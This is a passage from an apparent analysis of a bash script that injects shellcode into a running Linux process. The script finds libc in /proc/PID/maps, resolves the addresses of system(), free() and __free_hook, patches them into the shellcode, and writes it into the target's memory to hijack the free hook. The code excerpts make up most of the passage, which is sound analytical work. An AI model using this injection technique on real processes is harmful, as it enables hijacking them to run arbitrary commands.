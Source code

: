 ```bash linenums="1"
    shellcode=$(patch_shellcode $shellcode '\x42\x42\x42\x42\x42\x42\x42\x42' $(pack_addr $free_addr))
    shellcode=$(patch_shellcode $shellcode '\x43\x43\x43\x43\x43\x43\x43\x43' $(pack_addr $system_addr))
    shellcode=$(patch_shellcode $shellcode '\x44\x44\x44\x44\x44\x44\x44\x44' $(pack_addr $free_hook_addr))
    shellcode_length=$(echo -ne $shellcode | wc -c)
    shellcode_addr=$(($libc_exec_addr - $shellcode_length))
    shellcode=$(patch_shellcode $shellcode '\x55\x55\x55\x55\x55\x55\x55\x55' $(pack_addr $shellcode_addr))

    mem_write $target_PID $shellcode_addr $shellcode
    mem_write $target_PID $free_hook_addr $(pack_addr $shellcode_addr)

    echo 'Shellcode:            ' $shellcode

    echo 'Shellcode address:    ' $shellcode_addr
    echo 'libc_exec address:    ' $libc_exec_addr

    echo 'free() hook address:  ' $free_hook_addr
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

exploit $1
```

The script takes a `PID` of a process, then looks for information on `libc` in the process:

```bash linenums="37"
libc_info=$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | head -n 1 | tr -s ' ')
libc_base=$((0x$(cut -d '-' -f1 <<< "$libc_info")))
libc_filename=$(cut -d ' ' -f6 <<< "$libc_info")
```

Next, it looks for the addresses of specific functions inside `libc`, specifically `system()`,
`free()`, `malloc_usable_addr()`, and `__free_hook()`:

```bash linenums="41"
free_hook_addr=$((libc_base+$(find_addr $libc_filename __free_hook)))
system_addr=$((libc_base+$(find_addr $libc_filename system)))
free_addr=$((libc_base+$(find_addr $libc_filename free)))
malloc_usable_addr=$((libc_base+$(find_addr $libc_filename malloc_usable_size)))
```

Finally, it looks for the end of the `exec` section of `libc`:

```bash linenums="46"
libc_exec_addr=$((0x$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))
```

The next lines contain what looks like shellcode, with code to patch the shellcode with
the addresses of the functions found above:
